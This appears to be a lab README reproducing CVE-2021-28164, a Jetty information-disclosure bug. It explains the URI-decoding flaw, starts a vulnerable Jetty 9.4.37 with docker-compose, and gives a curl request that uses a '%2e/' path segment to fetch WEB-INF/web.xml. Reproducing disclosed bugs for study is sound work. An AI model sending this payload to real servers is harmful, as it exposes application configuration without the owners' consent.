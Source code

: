 # Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-28164)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty release 9.4.37 introduced a more precise implementation of RFC3986 with regards to URI decoding, together with some new compliance modes to optionally allow support of some URI that may have ambiguous interpretation within the Servlet specified API methods behaviours. The default mode allowed % encoded . characters to be excluded for URI normalisation, which is correct by the RFC, but is not assumed by common Servlet implementations.

The default compliance mode allows requests with URIs that contain `%2e` or `%2e%2e` segments to access protected resources within the WEB-INF directory. For example a request to `/context/%2e/WEB-INF/web.xml` can retrieve the web.xml file. This can reveal sensitive information regarding the implementation of a web application.

This bug is fixed on version 9.4.39.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5

## Vulnerable Application

Execute the following command to start a Jetty 9.4.37 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page.

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.

![](1.png)

Use `%2e/` to bypass the restriction:

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)
